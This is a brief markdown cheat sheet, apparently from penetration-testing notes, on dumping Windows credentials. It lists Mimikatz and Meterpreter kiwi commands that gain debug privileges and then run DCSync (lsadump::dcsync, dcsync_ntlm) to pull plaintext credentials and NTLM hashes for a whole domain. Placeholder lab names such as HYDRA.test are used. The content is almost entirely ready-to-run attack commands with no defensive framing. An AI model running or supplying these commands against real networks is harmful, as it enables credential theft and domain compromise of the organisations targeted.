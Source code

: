 # Dumping Hashes

Use Mimikatz to dump local and domain plaintext credentials and hashes.

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

## Dump Domain Hashes

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:$DOMAIN_NAME /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm $DOMAIN_USER # HYDRA\\grant.ward
```
